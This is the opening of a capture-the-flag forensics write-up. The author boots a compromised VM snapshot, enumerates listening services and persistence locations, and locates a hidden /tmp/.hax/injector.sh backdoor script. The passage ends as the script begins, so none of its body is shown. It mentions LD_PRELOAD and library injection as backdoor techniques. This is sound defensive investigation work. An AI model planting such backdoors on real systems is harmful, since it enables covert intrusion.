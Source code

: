 # analysis

## run script

I first tried to instanciate the VM on a Ubuntu 20.04 VM (with VTd passed through but it didn't worked). Looking at the errors I saw posts related to versions mismatch. Having a second look at the challenge description, I saw the hint specifying working version. I was able to start it from a Kali Linux 2020.04 VM.

From the `qemu` command line, we can spot that two ports are exposed to the host. Those are potential services for the backdoor :)

## virtual machine

Looking at the listening processes, we find the ports from the `qemu` command line, linked to `sshd` and `nginx`. I first enumerated common Linux persistence mechanisms such as crontab, `.profile`, `.bash_rc`, services, ... without any luck. Even `.bash_history` is empty...

```console
$ sudo ./run.sh
Restoring snapshot compromised (art_ctf_injector_local.qcow2)
Press Return...
qemu-system-x86_64: warning: TSC frequency mismatch between VM (2400004 kHz) and host (2304003 kHz), and TSC scaling unavailable

root@injector-local:~# netstat -tulpen
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       User       Inode      PID/Program name
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      102        20530      363/systemd-resolve
tcp        0      0 0.0.0.0:3322            0.0.0.0:*               LISTEN      0          21317      377/sshd: /usr/sbin
tcp        0      0 0.0.0.0:4321            0.0.0.0:*               LISTEN      0          21331      379/nginx: master p
tcp6       0      0 :::3322                 :::*                    LISTEN      0          21328      377/sshd: /usr/sbin
udp        0      0 127.0.0.53:53           0.0.0.0:*                           102        20529      363/systemd-resolve
udp        0      0 0.0.0.0:68              0.0.0.0:*                           0          23257      591/dhclient
```

Looking at the `enabled-modules` and `enabled-sites` for `nginx` didn't brought anything suspicious either. All libraries were last modified at the same date. This could have been an injection point, just like `ld_preload` which could be used to backdoor Linux processes.

After some time lost looking around, I thought "ok, if you have a library to backdoor something, you would probably need to compile it locally and you would store the source under...":

```console
root@injector-local:~# ll -a /tmp/
total 44
[...]
drwxrwxrwt  2 root root 4096 Jan 13 19:13 .font-unix/
drwxr-xr-x  2 root root 4096 Jan 13 19:15 .hax/
drwxrwxrwt  2 root root 4096 Jan 13 19:13 .ICE-unix/
[...]
root@injector-local:~# cat /tmp/.hax/injector.sh
#!/bin/bash

set -e

roth8Kai() {
```